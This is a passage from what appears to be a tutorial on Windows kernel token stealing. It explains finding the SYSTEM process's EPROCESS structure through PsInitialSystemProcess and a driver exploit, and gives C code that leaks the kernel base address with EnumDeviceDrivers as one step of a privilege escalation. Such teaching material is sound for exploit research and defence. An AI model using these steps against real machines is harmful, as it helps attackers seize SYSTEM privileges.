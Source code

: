 Ok, let's dive into a practical example to further illustrate the concept of token stealing. Our first goal is to locate two *EPROCESS*{: style="color: LightSalmon"} structures: one for the SYSTEM process and another for our own process. However, there are some challenges to overcome.  

In kernel mode, the address of the *EPROCESS*{: style="color: LightSalmon"} structure for the SYSTEM process is conveniently exposed by the kernel through the exported symbol *PsInitialSystemProcess*{: style="color: LightSalmon"}. Unfortunately, our process is running in user mode, which means we can't read this pointer, because it's in kernel-land. We can leverage a driver exploit to read *PsInitialSystemProcess*{: style="color: LightSalmon"}, but first we need to know what is the kernel address of the *PsInitialSystemProcess*{: style="color: LightSalmon"} symbol itself.  

To address this issue, we can try to find the offset of *PsInitialSystemProcess*{: style="color: LightSalmon"} from the base address of the kernel. By adding the offset and the kernel base address together we can determine the kernel address of *PsInitialSystemProcess*{: style="color: LightSalmon"}.  

```
KernelAddressOfPsInitialSystemProcess = PsInitialSystemProcessOffset + KernelBaseAddress
```

To find the base address of the kernel, there are various approaches, as described on this page: [https://wumb0.in/finding-the-base-of-the-windows-kernel.html](https://wumb0.in/finding-the-base-of-the-windows-kernel.html)  

In this example, I will utilize the *EnumDeviceDrivers*{: style="color: LightGreen"} function, which returns the kernel base addresses of all loaded kernel modules. The first module in the list is the kernel itself, allowing us to obtain its base address.  

```c
ULONG_PTR GetKernelBaseAddress() {
	ULONG_PTR pKernelBaseAddress = 0;
	LPVOID* lpImageBase = NULL;
	DWORD dwBytesNeeded = 0;

	// first call calculates the exact size needed to read all the data
	if (!EnumDeviceDrivers(NULL, 0, &dwBytesNeeded)) {
		PRINT_ERROR(L"[-] Couldn't EnumDeviceDrivers.\n");
		return pKernelBaseAddress;
	}
		
	// allocate enough memory to read all data from EnumDeviceDrivers
	if (!(lpImageBase = (LPVOID*)HeapAlloc(GetProcessHeap(), 0, dwBytesNeeded))) {
		PRINT_ERROR(L"[-] Couldn't allocate heap for lpImageBase.\n");
		if (lpImageBase)
			HeapFree(GetProcessHeap(), 0, lpImageBase);

		return pKernelBaseAddress;
	}

	if (!EnumDeviceDrivers(lpImageBase, dwBytesNeeded, &dwBytesNeeded)) {
		PRINT_ERROR(L"[-] Couldn't EnumDeviceDrivers.\n");
		if (lpImageBase)
			HeapFree(GetProcessHeap(), 0, lpImageBase);

		return pKernelBaseAddress;
	}

	// the first entry in the list is the kernel
	pKernelBaseAddress = ((ULONG_PTR*)lpImageBase)[0];
	DEBUG(L"[*] KernelBaseAddress: %llx\n", pKernelBaseAddress);

	return pKernelBaseAddress;
}
```
